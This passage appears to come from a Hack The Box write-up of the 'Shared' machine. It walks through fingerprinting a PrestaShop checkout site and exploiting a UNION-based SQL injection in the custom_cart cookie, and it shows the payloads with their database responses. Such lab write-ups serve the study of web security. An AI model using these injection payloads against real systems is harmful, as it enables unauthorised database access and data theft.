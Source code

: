 ```
➜  webanalyze ./webanalyze -host https://shared.htb
https://shared.htb (0.7s):
    Nginx, 1.18.0 (Web servers, Reverse proxies)
    PHP,  (Programming languages)
```

![[/assets/images/htb-writeup-shared/shared01.png]]

New checkout process "be sure to take a look on it!" - is that a hint maybe? Pressing "checkout" takes you to https://checkout.shared.htb, add it to `/etc/hosts`.
In the footer of the page we find that the site is built using __PrestaShop__. Googling about PrestaShop we find some older and newer vulns, but in particular [one from 2022](https://build.prestashop.com/news/major-security-vulnerability-on-prestashop-websites/) where the module `blockwishlist` is vulnerable. 

The vulnerability is executed with help of SQL Injection, so lets look for a vector.

All items we add from the store are processed and saved in the cookie variable `custom_cart`, which is URL encoded and sticks out. Decode the data and playing around I find that the value field is reflected in the response. 
![[/assets/images/htb-writeup-shared/shared02.png]]

Playing around with SQLi in the product ID field I find that testing `'ORDER BY 4-- -` returns "Not Found", while `'ORDER BY 3-- -` still returns the ID.
![[/assets/images/htb-writeup-shared/shared03.png]]

![[/assets/images/htb-writeup-shared/shared04.png]]

Further testing and I find:
```bash
## Request
custom_cart={"4HAR4XDK'OR 1=1 UNION SELECT @@version,2,3-- -":"1","2E6E8GXJ":"1"}

## Response
53GG2EF8
```

A new ID, we're getting close to something! Note that we get the same response no matter if `@@version` is at column 1,2 or 3. 
Since `4HAR4XDK` is a valid ID and will therefore return true, remove it and use an invalid ID instead.
```bash
## Request
custom_cart={"sqlihere'UNION SELECT 1,@@version,3-- -":"1","2E6E8GXJ":"1"}

## Response
10.5.15-MariaDB-0+deb11u1
```

We got outselves a foothold!


### Step 2
Enumerate the database manually go gain [usefull information](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635).
```bash
## DATABSE
request: custom_cart={"sqlihere'UNION SELECT 1,database(),3-- -":"1","2E6E8GXJ":"1"}
response: checkout

## USER
request: custom_cart={"sqlihere'UNION SELECT 1,user(),3-- -":"1","2E6E8GXJ":"1"}
response: checkout@localhost

## TABLES
```
